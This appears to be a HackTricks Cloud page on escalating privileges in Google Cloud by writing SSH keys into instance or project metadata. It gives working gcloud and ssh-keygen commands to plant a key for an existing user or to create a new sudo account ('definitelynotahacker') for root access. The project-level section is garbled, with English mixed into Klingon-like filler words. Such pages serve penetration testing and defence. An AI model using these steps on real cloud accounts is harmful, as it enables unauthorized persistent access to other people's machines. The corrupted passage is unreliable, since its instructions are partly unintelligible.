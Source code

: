 # GCP - Add Custom SSH Metadata

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
- Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
- Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.

3. **Generate a New SSH Key for the Target User (`alice` in this example):**
- Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**
- Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Access the Instance Using the New SSH Key:**
- Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

**Qapla'!** QaD jatlh SSH access laH multiple Virtual Machines (VMs) cloud environment vItlhutlh **applying SSH keys at the project level**. vaj summarized guide:

1. **Apply SSH Keys at the Project Level:**
- Use `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to project's metadata. vaj ensures SSH keys recognized across all VMs project, VMs "Block project-wide SSH keys" option enabled.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH into Instances Using Project-Wide Keys:**
- project-wide SSH keys vItlhutlh, SSH into any instance within project. Instances not block project-wide keys accept SSH key, granting access.
- A direct method SSH into instance using `gcloud compute ssh [INSTANCE]` command. vaj command uses your current username SSH keys set project level attempt access.


# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
